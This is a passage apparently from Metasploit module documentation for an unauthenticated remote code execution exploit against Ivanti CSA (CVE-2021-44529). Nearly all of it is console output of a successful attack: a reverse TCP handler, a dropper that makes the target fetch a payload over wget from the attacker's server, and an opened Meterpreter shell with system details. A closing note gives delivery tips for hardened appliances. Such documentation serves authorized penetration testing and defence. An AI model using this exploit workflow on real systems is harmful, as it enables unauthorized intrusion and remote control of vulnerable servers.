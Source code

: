 ```
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:1080/oBGKBxPUe3Uos
[*] Client 192.168.100.41 (Wget/1.14 (linux-gnu)) requested /oBGKBxPUe3Uos
[*] Sending payload to 192.168.100.41 (Wget/1.14 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.100.41
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 3 opened (192.168.100.7:4444 -> 192.168.100.41:59436) at 2023-01-08 16:52:10 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

## Limitations
Due to the port restrictions of a hardened CSA appliance typically only port `80` and `443` are open for inbound and outbound traffic.
Also avoid using stageless payloads because they may exceed the maximum Cookie header size that will cause the payload delivery to fail.
